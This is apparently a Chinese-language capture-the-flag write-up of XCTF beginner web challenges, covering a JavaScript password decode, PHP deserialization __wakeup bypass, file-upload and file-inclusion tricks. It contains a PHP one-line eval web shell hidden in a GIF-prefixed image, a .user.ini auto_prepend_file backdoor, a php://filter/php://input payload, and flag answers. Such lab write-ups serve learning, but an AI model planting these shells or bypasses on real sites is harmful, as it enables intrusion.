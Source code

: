 ### simple_js

默认弹出窗口，先 f12，查看源代码，发现 js 代码如下

```html
<html>
  <head>
    <title>JS</title>
    <script type="text/javascript">
      function dechiffre(pass_enc) {
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab = pass_enc.split(",");
        var tab2 = pass.split(",");
        var i,
          j,
          k,
          l = 0,
          m,
          n,
          o,
          p = "";
        i = 0;
        j = tab.length;
        k = j + l + (n = 0);
        n = tab2.length;
        for (i = o = 0; i < (k = j = n); i++) {
          o = tab[i - l];
          p += String.fromCharCode((o = tab2[i]));
          if (i == 5) break;
        }
        for (i = o = 0; i < (k = j = n); i++) {
          o = tab[i - l];
          if (i > 5 && i < k - 1) p += String.fromCharCode((o = tab2[i]));
        }
        p += String.fromCharCode(tab2[17]);
        pass = p;
        return pass;
      }
      String["fromCharCode"](
        dechiffre(
          "\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"
        )
      );

      h = window.prompt("Enter password");
      alert(dechiffre(h));
    </script>
  </head>
</html>
```

分析得出，无论弹出的对话框输入密码正确与否都只会返回同一个字符串；

真正的密码就是这以下代码中的 16 进制加密数据

```js
String["fromCharCode"](
  dechiffre(
    "\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"
  )
);
```

<br>

同样的，直接在开发者工具的控制台内使用 String 函数对这段编码进行解码

之后编码转换，直接获取 flag

flag 为 `786OsErtk12`

> 注意提交是的格式！！！所以正确答案应该为 cyberspace{786OsErtk12}

![](../imgs/contest/xctf_noob/xn1.png)

<br>

### PHP2

> php 是给开发者看的源代码，phps 是为了直接在网页中查看 php 源码而设计的文件

通过 index.phps 获取网页 php 源代码

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>
```

<br>

### unserialize3

目的：通过反序列化绕过魔法函数 wakeup

原理：  
当执行反序列化时会首先运行魔法函数 `__wakeup()`；我们需要绕过该魔法函数才能正确获取 flag  
仅需使序列化成员数大于实际成员数即可！

打开 phpstorm，写入以下代码，获取类 xctf 的序列化内容

```php
<?php
class xctf
{
    public $flag = '111';

    public function __wakeup()
    {
        exit('bad requests');
    }
}

$a=new xctf();
var_dump(serialize($a));
```

<br>

得到的序列化内容：  
`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`

我们增加实际成员数，即把 1 改成 2，此时得到：  
`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

<br>

将该序列化内容作为负载写入 URL  
`xxx.xxx.xxx.xxx/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

即可绕过 wakeup 获取正确的 flag

<br>

### easyupload

题解：利用 .user.ini 配置文件挂载后门程序，使用蚁剑链接得到 flag

可以先制作一个 `.user.ini` 文件

```ini
GIF89a
auto_prepend_file=a.jpg
```

在制作一个带一句话木马的图片 `a.jpg`

```php
GIF89a
<?=eval($_POST['cmd']);?>
```

<br>

使用 burp 拦截每一次上传请求，把 content-type 全部改为 image/jpg，这样才可以绕过类型检测

完毕后中国蚁剑找到文件上传点，链接即可

<br>

### fileclude

题解：`php://filter/red` + `php://input` 绕过

打开网站首先看到的是一串源码

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET["file1"]) && isset($_GET["file2"]))
{
    $file1 = $_GET["file1"];
    $file2 = $_GET["file2"];
    if(!empty($file1) && !empty($file2))
    {
        if(file_get_contents($file2) === "hello ctf")
        {
            include($file1);
        }
    }
    else
        die("NONONO");
}
```

大意就是：需要通过 url 传入两个参数 file1 和 file2，且 file2 的内容必须为 `hello ctf`

<br>

可以构造如下载荷

`?file1=php://filter/read=convert.base64-encode/resource=flag.php&file2=php://input`

通过 apifox 中的 POST 请求，请求体使用 raw 格式，写入 hello ctf，此即代表了 file2 的内容！

> file1 读取 flag.php 文件，而 file2 通过 POST 请求体传入指定字符串，成功拿到经过 base64 加密后的 flag

<br>

###
